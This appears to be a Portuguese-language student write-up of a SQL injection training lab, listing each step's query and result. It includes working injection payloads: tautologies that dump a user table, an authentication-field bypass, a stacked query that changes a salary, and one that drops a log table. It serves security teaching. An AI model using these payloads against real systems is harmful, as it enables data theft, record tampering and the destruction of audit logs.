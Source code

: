 ## Exercício 1

### Pergunta 1.1

SQL Injection - Passos efetuados na resolução:

#### Passo 2
```select department from employees where userid=96134```

Resultado: Department markting
#### Passo 3
```update employees set department='Sales' where first_name='Tobi'```

Resultado: 89762 Tobi Barnett Sales 77000 TA9LL
#### Passo 4
```alter table employees add phone varchar(20); ```

Resultado: ALTER TABLEemployees ADD phone varchar(20)
#### Passo 5
```GRANT ALTER TABLE TO 'UnauthorizedUser'```

Resultado: GRANT ALTER TABLE TO UnauthorizedUser
#### Passo 9
```SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'```

Resultado: Toda a user_data porque '1' = '1' é sempre verdadeiro.
#### Passo 10
``` SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1 ```

Resultado: Toda a user_data porque '1' = '1' é sempre verdadeiro.
#### Passo 11
No campo *Authentication TAN*: ``` ' OR '1' = '1```

Resultado: "You have succeeded!You have successfully compromised the confidentiality of data by viewing internal information that you should not have access to. Well done!"
#### Passo 12
``` '; update employees set salary = 120000 where auth_tan = '3SL99A ```

Resultado: Com os primeiros caractéres terminamos a *query*. Depois encadeamos uma outra que altera o valor do salário.
#### Passo 13
``` ';drop table access_log; select * from access_log where action =' ```

Resultado: Fazemos novamente o processo de encadear a query que queremos, neste caso que apaga a tabela com os *logs*. De seguida junta-se uma outra *query* que termina com a plica (') de forma a não haver erros. Como resultado final, a tabela é apagada.
